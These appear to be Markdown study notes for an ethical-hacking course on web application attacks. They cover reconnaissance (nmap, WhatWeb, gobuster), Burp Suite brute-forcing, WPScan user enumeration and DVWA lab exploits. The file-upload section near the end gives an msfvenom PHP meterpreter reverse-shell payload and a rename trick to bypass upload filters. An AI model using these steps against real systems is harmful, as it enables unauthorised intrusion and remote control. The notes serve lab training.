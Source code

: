 # Hacking Web Applications

Methods:
- SQL injection attacks
- cross-site scripting (XSS)
- cross-site request forgeries (CSRF)
- insecure communications
- brute-force
- parameter tampering

## Footprint
Tasks:
- Server Discovery
- Service Discovery
- Server Identification
- Hidden Content Discovery

### Web Application Reconnaissance
1. Whois lookup
  - Netcraft (https://www.netcraft.com)
  - SmartWhois (https://www.tamos.com)
  - WHOIS Lookup (http://whois.domaintools.com)
  - Batch IP Converter (http://www.sabsoft.com) 
2. DNS interrogation
  - Toolset (https://tools.dnsstuff.com)
  - DNSRecon (https://github.com)
  - DNS Records (https://network-tools.com)
  - Domain Dossier (https://centralops.net)

Steps:
1. ``` nmap -T4 -A -v [Target Web Application, domain name] ```
  - -T4: specifies setting time template (0-5)
  - -A: specifies setting ACK flag
  - -v: enables the verbose output
  - Get Information: target machine name, NetBIOS name, DNS name, MAC address, OS, and other information.
2. ``` telnet [target domain] 80 ```\
   ``` GET /HTTP/1.0 ```\
    displaying information related to the server name and its version, technology used
3. if the attacker entered an **IP address**, they receive the banner information of the target machine.\
   if they enter the **URL of a website**, they receive the banner information of the respective web server that hosts the website.

### WhatWeb
Recognizes content management systems (CMS), blogging platforms, statistics and analytics packages, JavaScript libraries, web servers, and embedded devices.\
Identifies version numbers, email addresses, account IDs, web framework modules, SQL errors

``` whatweb [Target Web Application] ```\
``` whatweb -v [Target Web Application] ```\
``` whatweb --log-verbose=[report name] [Target Web Application] ```\
write output to a text file

### OWASP ZAP
- Click "Automated Scan"
- Input "URL to attack"
- Result in "Alerts" tab

### Detect Load Balancer
2 types:
- Layer 4, DNS
- Layer 7, HTTP

``` dig [domain name] ```\
multiple IP addresses, possibly a load balancer.

``` lbd [domain name] ``` lbd (load balancing detector)\
detects if a given domain uses DNS and http load balancing via the Server: and Date: headers and the differences between server answers. It analyzes the data received from application responses to detect load balancers.

### Identify Web Server Directories
``` nmap -sV --script=http-enum [target domain or IP address] ```\
``` gobuster dir -u [Target Website] -w [worldlist path] ```\
  dir: uses directory or file brute-forcing mode

### Vulnerability Scan by Vega
Other tools:
- WPScan Vulnerability Database (https://wpscan.com), 
- Arachni (https://www.arachni-scanner.com), 
- appspider (https://www.rapid7.com), or 
- Uniscan (https://sourceforge.net) 

### Identify Clickjacking
  iframe
  
## Perform Web Application Attack

### Brute-force by Brup Suite
  Brup Suite: intercepting proxy, application-aware spider, advanced web application scanner, intruder tool, repeater tool, and sequencer tool.
  
  1. "Intruder" tab.
  2. Attack type choose "Cluster bomb".
  3. "Payloads" tab, set payload set and type, load wrodlists.
  4. click "start attack".

### Parameter Tampering by Brup Suite
  
  "Proxy" tab -> "Intercept" -> "Params"
  
### XSS Vulnerabilities
  
###  Cross-site Request Forgery (CSRF) Attack
  ``` wpscan --api-token [API Token from Step#25] --url http://10.10.10.16:8080/CEH --plugins-detection aggressive --enumerate vp ```\
  --enumerate vp: specifies the enumeration of vulnerable plugins.
  
### WPScan and Metasploit
  ``` wpscan --api-token [API Token] --url http://10.10.10.16:8080/CEH --enumerate u ```\
  --enumerate u: specifies the enumeration of usernames.
   
   auxiliary module called **wordpress_login_enum** (in **msfconsole**) to perform a dictionary attack using the password.txt 
  
### Remote Command Execution Vulnerability
  
  Damn Vulnerable Web App (DVWA) [link](https://dvwa.co.uk/)\
  The "Command Injection" tab.
  
### File Upload Vulnerability
  
  1. ``` msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP Address of Host Machine] LPORT=4444 -f raw ```
  2. copy the raw payload to a file.
  3. in DVWA`s "File Upload" panel, upload the raw file.
  4. In msfconsole, type use exploit/multi/handler 
  5. Browse the uploaded file`s path, like "http://10.10.10.16:8080/dvwa/hackable/uploads/upload.php"
  
  If security level is high, we can upload payload.jpg to the server. Then use Command Injection to change the file name to payload.php on the server side. Then the same.
  
### Gain Backdoor Access via a Web Shell using Weevely

